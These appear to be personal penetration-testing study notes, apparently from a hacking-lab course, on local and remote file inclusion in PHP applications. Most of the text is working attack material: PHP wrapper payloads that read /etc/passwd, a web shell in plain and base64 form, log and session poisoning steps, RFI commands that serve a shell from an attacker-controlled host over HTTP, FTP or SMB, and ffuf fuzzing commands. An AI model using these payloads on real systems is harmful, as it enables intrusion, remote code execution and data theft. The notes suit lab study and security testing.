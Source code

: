 ![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

##### Check if wrappers are supported
To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.
```
allow_url_include = On
```

##### PHP Wrappers
* https://www.php.net/manual/en/wrappers.php.php
* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `php://filter/read=convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`



![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`



###### Session poisoning files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL with LFI vulnerability to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```
or poison User-Agent header


Then using LFI vulnerability to access the log file.
log files:
`/var/log/apache2/access.log`
`C:\xampp\apache\logs\`
`/var/log/nginx/ `
`C:\nginx\log\`

or for User-Agent header:
```
Tip: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.
```

other logs:
    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log

LFI fuzz
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI


##### LFI

`dataserver=file:///etc/passwd`

#### RFI
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Verify RFI
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
or
`try and include a URL`, and see if we can get its content

RCE with RFI
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php

python3 -m http.server 8000
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:8000/shell.php&cmd=id
```
or host our script via ftp
```shell
sudo python -m pyftpdlib -p 21

curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

host via smb
```bash
impacket-smbserver -smb2support share $(pwd)
```
open
```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

RCE via file upload
3. upload a php script (look File upload section)
4. use LFI methos to  `?language=./uploads/shell.gif&cmd=id`

LFI fuzzing
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters
/index.php?language=FUZZ
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

fuzzing server dirs
```
la1n23@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

fuzz logs and configs of server
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
```
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

LIF automation
https://github.com/D35m0nd142/LFISuite
https://github.com/OsandaMalith/LFiFreak
https://github.com/mzfr/liffy
